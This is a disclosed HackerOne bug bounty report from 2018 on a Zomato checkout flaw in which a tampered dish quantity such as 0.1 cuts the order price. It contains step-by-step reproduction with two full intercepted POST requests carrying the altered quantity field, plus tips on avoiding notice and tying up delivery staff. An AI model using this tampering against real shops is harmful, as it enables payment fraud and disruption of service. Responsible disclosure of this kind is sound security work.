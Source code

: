 # [www.zomato.com] Tampering with Order Quantity and paying less amount then actual amount, leads to business loss

## Report Details
- **Report ID**: 403783
- **URL**: https://hackerone.com/reports/403783
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-09-01T09:51:42.131Z
- **Disclosed**: 2018-09-17T09:58:51.514Z

## Reporter
- **Username**: akhil-reni
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zomato

## Vulnerability Information
**Hi, Team**,

Like discussed with Prateek I am dropping the report here. 

**Summary:** 
Like the **title** says using this vulnerability one could order food at negligible price or keep all delivery executives busy.

**Description:**
While fuzzing my way through the payment flow on Zomato orders I came across a couple of interesting bugs that can be escalated to security vulnerabilities. 

██████ **███████**
█████████

█████████**This is a Security Issue** But when we set a quantity to a decimal number, for example: let's say I am trying to order 1 Biryani that costs 99₹, I can set the quantity to 0.1 and now the order price will total to 9.9₹. 
To verify the vulnerability I did two orders:

- One, ordered at the price of 0.1 quantity - Order got cancelled.

{███████}

- Two, ordered at the price of 0.6 quantity - Order got successfull delivered.

{████}

{████}

But in both the cases delivery executives were assigned, that basically means that one could spend as low as 10 rupees and keep all zomato executives in my area busy/occupied.

**Platform(s) Affected:** Website (probably mobile too, if it's the same flow)

## Browsers Verified In [If Applicable]:

N/A

## Steps To Reproduce:

████ Select any resturant 
██████Select any food item from the menu and click continue

{██████████}

3) Intercept the HTTP requests, click select net banking
4) You'll come across the following request, change the quantity to 0.1 (to be on stealth mode, change the quantity to 0.6)

```
POST /php/o2_handler.php HTTP/1.1
Host: www.zomato.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.zomato.com/
content-type: application/x-www-form-urlencoded;charset=UTF-8
origin: https://www.zomato.com
Content-Length: 825
Cookie: <redacted>
Connection: close

████████&order%5Bdishes%5D%5B0%5D%5Btype%5D=dish&order%5Bdishes%5D%5B0%5D%5Bcomment%5D=&order%5Bdishes%5D%5B0%5D%5Bitem_id%5D=481238585&order%5Bdishes%5D%5B0%5D%5Bitem_name%5D=Veg%20Biryani%20%5BRegular%5D&order%5Bdishes%5D%5B0%5D%5Bmrp_item%5D=0&order%5Bdishes%5D%5B0%5D%5Bquantity%5D=1&order%5Bdishes%5D%5B0%5D%5Btags%5D=1&order%5Bdishes%5D%5B0%5D%5Btax_inclusive%5D=0&order%5Bdishes%5D%5B0%5D%5Bunit_cost%5D=120&order%5Bdishes%5D%5B0%5D%5Btotal_cost%5D=120&order%5Bdishes%5D%5B0%5D%5Bis_bogo_active%5D=false&order%5Bdishes%5D%5B0%5D%5BbogoItemsCount%5D=0&order%5Bdishes%5D%5B0%5D%5BalwaysShowOnCheckout%5D=0&order%5Bdishes%5D%5B0%5D%5Bduration_id%5D=0&res_id=███████&address_id=██████&voucher_code=&payment_method_type=&payment_method_id=0&card_bin=&case=calculatecart&csrfToken=███████
```
{██████████}

5) Click pay and you'll come across the following request. Change the quantity again to 0.1 (or whatever quantity you entered in the previous step)

```
POST /php/o2_handler.php HTTP/1.1
Host: www.zomato.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.zomato.com/
content-type: application/x-www-form-urlencoded;charset=UTF-8
origin: https://www.zomato.com
Content-Length: 2444
Cookie: <redacted>
Connection: close

case=makeonlineorder&res_id=█████████&order={"charges":[{"item_name":"Delivery Charge","total_cost":10,"type":"charge","unit_cost":0,"quantity":0,"comment":null,"groups":[],"item_id":0,"mrp_item":0,"tax_inclusive":0,"tags":"","tax_id":0,"id":96623,"display_cost":"â¹10"}],"taxes":[{"item_name":"Taxes","total_cost":0.6,"type":"tax","unit_cost":0,"quantity":0,"comment":null,"groups":[],"item_id":0,"mrp_item":0,"tax_inclusive":0,"tags":"","tax_id":0,"id":0,"display_cost":"â¹0.60"}],"subtotal2":[{"item_name":"Subtotal","total_cost":12,"type":"subtotal2","unit_cost":0,"quantity":0,"comment":null,"groups":[],"item_id":0,"mrp_item":0,"tax_inclusive":0,"tags":"","tax_id":0,"id":0,"display_cost":"â¹12.00"}],"total":[{"item_name":"Grand Total","total_cost":"22.60","type":"total","unit_cost":0,"quantity":0,"comment":null,"groups":[],"item_id":0,"mrp_item":0,"tax_inclusive":0,"tags":"","tax_id":0,"id":0,"display_cost":"â¹22.60"}],"dishes":[{"type":"dish","comment":"","groups":[],"item_id":481238585,"item_name":"Veg Biryani [Regular]","mrp_item":0,"quantity":0.1,"tags":"1","tax_inclusive":0,"unit_cost":120,"total_cost":120,"is_bogo_active":false,"bogoItemsCount":0,"alwaysShowOnCheckout":0,"duration_id":0}]}&██████
```

{████████}

6) You'll be redirected to payment gateway, pay the amount. 
7) If the restaurant hasn't noticed the quantity then the order will be delivered successfully.


## Supporting Material/References:
Order ID - ██████ (which got delivered as POC)

## Impact

The impact is:
1 - Order food for a negligible amount
2 - Or make indefinite orders at a very low price by setting quantity to 0.02. The orders will go through, and you keep all delivery executives busy this way in one single area. This can be a business risk cause all new orders have to wait until a delivery executive is assigned to them.

PS: Setting the severity to high, you can give it a right tag once you discuss the worse case scenario internally.

## Attachments
No attachments
